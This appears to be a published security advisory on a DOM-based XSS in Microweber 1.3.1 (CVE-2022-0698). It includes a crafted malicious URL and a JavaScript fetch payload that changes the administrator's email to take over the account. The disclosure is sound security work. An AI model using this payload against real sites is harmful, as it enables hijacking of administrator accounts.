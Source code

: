 ```yaml
---
slug: advisories/garrix/
title: Microweber 1.3.1  -  DOM XSS to Account Takeover
authors: Carlos Bello
writer: cbello
codename: garrix
product: Microweber 1.3.1
date: 2022-11-29 10:00 COT
cveid: CVE-2022-0698
severity: 8.8
description: Microweber 1.3.1  -  DOM XSS to Account Takeover - DOM-Based cross-site scripting (XSS)
keywords: Fluid Attacks, Security, Vulnerabilities, Microweber, XSS
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | Microweber 1.3.1  -  DOM XSS to Account Takeover       |
| **Code name**         | [Garrix](https://en.wikipedia.org/wiki/Martin_Garrix)  |
| **Product**           | Microweber                                             |
| **Affected versions** | Version 1.3.1                                          |
| **State**             | Public                                                 |
| **Release date**      | 2022-11-29                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | DOM-Based cross-site scripting (XSS)                                                                   |
| **Rule**              | [371. DOM-Based cross-site scripting (XSS)](https://docs.fluidattacks.com/criteria/vulnerabilities/371)|
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 8.8                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-0698](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0698)                          |

## Description

Microweber version 1.3.1 allows an unauthenticated user to perform an
account takeover via an XSS on the 'select-file' parameter. The following
is an example of a vulnerable URL:

* http://example.com/admin/view:modules/load_module:files#select-file=http://example.com/userfiles/media/default/ovaa-checklist.txt.

## Vulnerability

The XSS present in Microweber 1.3.1, allows an unauthenticated remote
attacker to perform an Account Takeover. To trigger this vulnerability,
we will need to send the following malicious link to an administrator in
order to hack their account. The following is an example of a malicious URL:

* http://example.com/admin/view:modules/load_module:files#select-file=http://example.com/userfiles/media/default/ovaa-checklist.php%22onload%3d%22javascript:PAYLOAD%22+///.txt

In the **PAYLOAD** field we will put the following malicious JS code:

```js
fetch('http://example.com/api/user/1',{
    method:'POST',
    credentials:'include',
    headers:{
        'Content-type':'application/x-www-form-urlencoded;charset%3dUTF-8'
    },
    body:'id%3d1%26_method%3dPATCH%26username%3dadmin%26email%3dattacker%40fluidattacks.com%26phone%3d\r\n'
})
```

## Exploitation

To exploit this vulnerability, a malicious URL must be sent to the
administrator of the Microweber instance. Once the administrator enters
the link, we will change the email address associated with their account
to one that is under our control.

![normal](https://user-images.githubusercontent.com/51862990/189453637-86fe4ccc-3d3e-4550-a666-b0c947cbee8d.png)

![AccountTakeover](https://user-images.githubusercontent.com/51862990/189451927-3841b94f-9a1c-4c10-b286-6b493a565d36.gif)

![hacked](https://user-images.githubusercontent.com/51862990/189453661-bba7b314-dfdd-4a91-887a-a78b51c112bf.png)

## Our security police

We have reserved the CVE-2022-0698 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Microweber 1.3.1

* Operating System: GNU/Linux

* Web Server: Apache

* PHP Version: 8.1.9

* Database and version: MySQL

## Mitigation

An updated version of Microweber is available at the vendor page.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from the Offensive
Team of `Fluid Attacks`.

## References

**Vendor page** <https://github.com/microweber/microweber>

## Timeline

<time-lapse
  discovered="2022-09-05"
  contacted="2022-09-05"
  replied="2022-09-19"
  confirmed="2022-09-19"
  patched="2022-09-19"
  disclosure="2022-11-29">
</time-lapse>
